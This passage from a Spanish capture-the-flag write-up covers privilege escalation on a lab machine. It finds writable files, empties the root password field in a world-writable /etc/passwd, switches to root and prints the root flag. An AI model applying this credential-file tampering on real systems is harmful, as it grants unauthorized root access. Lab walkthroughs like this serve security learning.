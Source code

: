 ## Escalate Privileges

Si vemos los archivos en los cuales podemos escribir podremos ver lo siguiente:

```shell
find / \( -path /proc -o -path /sys \) -prune -o -type f -writable -print 2>/dev/null
```

Info:

```
/etc/passwd
/home/p4l4nc4/user.txt
/home/p4l4nc4/.bash_history
/home/p4l4nc4/.profile
/home/p4l4nc4/.ssh/id_rsa
/home/p4l4nc4/.ssh/id_rsa.pub
/home/p4l4nc4/.sudo_as_admin_successful
/home/p4l4nc4/.bashrc
/home/p4l4nc4/.bash_logout
```

Vemos que entre ellos esta el `/etc/passwd` por lo que vamos a realizar lo siguiente.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash # Cambiaremos esta linea
root::0:0:root:/root:/bin/bash # Por esta de aqui quitandole simplemente la "x" a root
```

Lo guardamos y ahora para ser `root` realizaremos lo siguiente.

```shell
su root
```

Info:

```
root@4ng014:/home/p4l4nc4# whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMV{4c3b9d0468240fbd4a9148c8559600fe2f9ad727}
```
